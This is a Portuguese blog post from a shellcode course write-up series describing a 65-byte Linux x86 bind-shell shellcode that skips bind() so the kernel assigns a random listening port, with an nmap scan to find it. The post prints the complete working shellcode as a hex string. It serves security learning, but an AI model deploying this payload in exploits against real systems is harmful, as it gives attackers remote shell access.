 ```yaml
---
layout: post
title: Hacking do Dia - Shell Bind TCP Random Port
date: '2013-03-18T23:00:00.000-03:00'
author: geyslan
categories: blog
excerpt:
tags: [slae, shellcode, linux, code, assembly, c, hacking, metasploit, portuguese]
share: true
modified: '2014-05-04T11:38:14.382-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-1583820687648973523
blogger_orig_url: http://www.hackingbits.com/2013/03/hacking-do-dia-shell-bind-tcp-random.html
---
```


*/\*<br>
Para melhor entendimento, leiam o post anterior [SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
\*/*

<!--more-->

*\<UPDATE\><br>
O [shellcode](http://shell-storm.org/shellcode/files/shellcode-834.php) final
deste post foi aceito no repositório [Shell-Storm](http://www.shell-storm.org/).<br>
Tks Jonathan Salwan.<br>
\</UPDATE\>*

*\<UPDATE 2\><br>
Foram incluídas no Metasploit as versões x86 e x86_64 deste payload.<br>
Tks Ewerson Guimarães (Crash), Tod Beardsley and all involved in Metasploit project.<br>
x86
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
x86_64
[payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
\</UPDATE 2\>*

Olá pessoal!

Comentários são sempre fantásticos. Sabem por quê?

Porque através da troca de conhecimento ideias surgem. E, havendo vontade, essas
ideias podem se transformar em algo útil.

Esta tarde, [Tiago Natel](https://twitter.com/_i4k_)
([SecPlus](http://www.secplus.com.br/)) me respondeu, com veemência e
propriedade, sobre o post [SLAE - 1st
Assignment](slae-1st-assignment-shell-bind-tcp.html)
na lista do [Brasil
Underground](https://groups.google.com/forum/?fromgroups#!forum/brasil-underground).
A informação que ele passou sobre shellcodes e o uso do **SO_REUSEADDR** foram
engrandecedoras para mim e os demais da lista.

Por e-mail, marcamos de debatermos o assunto, o que aconteceu no finalzinho da
tarde.

Fizemos, em conjunto, uns debbugs e traces dos shellcodes do metasploit e do que
disponibilizei via
[github](https://github.com/geyslan/SLAE/tree/master/1st.assignment).
Constatamos que realmente o do metasploit gera SIGSEGV quando a porta ainda está
em TIME_WAIT, uma vez que ao tentar fazer o bind, e não conseguir, o registrador
$eax recebe número negativo (erro) e fica poluído. Mesmo as novas cópias para
esse registrador não resolvem, já que, para se evitar null-bytes, os shellcodes
têm mov's usando o registrador $al, que copiam apenas 1 byte, deixando o resto
de $eax como está. Bom, dá para imaginar que o shellcode não vai funcionar muito
bem. :D

Identificamos, porém, que quando o meu shell_bind_tcp, sem opção SO_REUSEADDR,
era instanciado pela segunda vez, ou seja, com a porta da instância anterior
ainda em TIME_WAIT, o socket, ao ser criado, usava uma porta aleatória. De
início, achamos isso meio louco! Chegamos a pensar que a listen cuidava disso.
Eu pensei que era alguma coisa da libc, mas reproduzi o mesmo efeito com o
código asm (apenas com syscalls).

Nesse ínterim, Tiago, por ter bastante experiência, fez uma pesquisa rápida no
google e  encontrou informações a respeito do uso do bind no manual POSIX da
Fujitsu Siemens Computer
([SOCKETS/XTI(POSIX)](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)).

Vejam o achado dele (pg. 23):

> 2.6.6 Automatic address assignment by the system<br><br>
You can still call a function for a socket which actually requires a bound
socket (e.g. connect(), sendto(), etc.), **even if the socket has no address
assigned to it. In this case, the system executes an implicit bind() call with
wildcards for the Internet address and port number, i.e. the socket is bound
with INADDR_ANY to all IPv4** addresses and with IN6ADDR_ANY to all IPv6 addresses
and IPv4 addresses of the host **and receives a free port number from the range of
non-privileged port numbers.**

O que isso quer dizer?

Se não tivermos feito bind no socket, ou se o bind não acontecer por não haver
endereço e/ou porta disponíveis, como identificamos no meu shell_bind_tcp sem
SO_REUSEADDR, ao se utilizar syscalls como connect, sendto, no nosso caso a
listen, o sistema se encarrega de fazer um bind genérico com o atributo
INADDR_ANY e de disponibilizar uma porta dentre os números não privilegiados.

De certa forma estávamos corretos, pois pensávamos que era a listen que estava a
fazer o bind automático; em verdade, foi através dela que o sistema se
encarregou de amarrar o socket a um endereço disponível.

*Sim, e daí?*

Os shellcodes não imploram para serem pequenos e se adequarem aos buffers
explorados?

Quase que instantaneamente tivemos a ideia de retirar o setsockopt (usado no meu
shellcode) e o próprio bind (usado em todos).

Vocês não imaginam o tamanho do novo
[shell_bind_tcp_random_port](https://github.com/geyslan/SLAE/tree/master/improvements)...

**Míseros 65 bytes**

{% highlight console %}
$ echo -e "\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x5f\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\x43\x89\x54\x24\x08\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\xeb\xca" | /opt/libemu/bin/sctest -vvv -Ss 100000 -G shell_bind_tcp_random_port.dot
{% endhighlight %}

{% include imagehb.html url="https://raw.github.com/geyslan/SLAE/master/improvements/shell_bind_tcp_random_port_shellcode.png" caption="Fluxograma do shell_bind_tcp_random_port" %}

*Ah, mas isso não serve! Do que adianta se eu não posso setar a porta?*

**nmap nele!**

{% highlight console %}
$ nmap -sS host -p-
{% endhighlight %}

Só tenho algo mais a dizer: **COMPARTILHEM!!**

*P.S.* Valeu, Tiago!

##Mais Informações

[Hacking bits - github](https://github.com/geyslan)<br> [Metasploit x86
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x86/shell_bind_tcp_random_port.rb)<br>
[Metasploit x86_64
payload](https://github.com/rapid7/metasploit-framework/blob/678a16b5ef2dda6a65b2785cda498aab7bfda46a/modules/payloads/singles/linux/x64/shell_bind_tcp_random_port.rb)<br>
[SecPlus - github](https://github.com/SecPlus/)<br>
[SecPlus](http://www.secplus.com.br/)<br> [POSIX - SOCKETS/XTI for POSIX -
Manuals - Fujitsu](http://manuals.ts.fujitsu.com/file/4686/posix_s.pdf)<br>
[bind() - POSIX - IEEE Std
1003.1-2008](http://pubs.opengroup.org/onlinepubs/9699919799/functions/bind.html)<br>
[nmap](http://nmap.org/)<br> [Brasil
Underground](https://groups.google.com/forum/?fromgroups#%21forum/brasil-underground)<br>
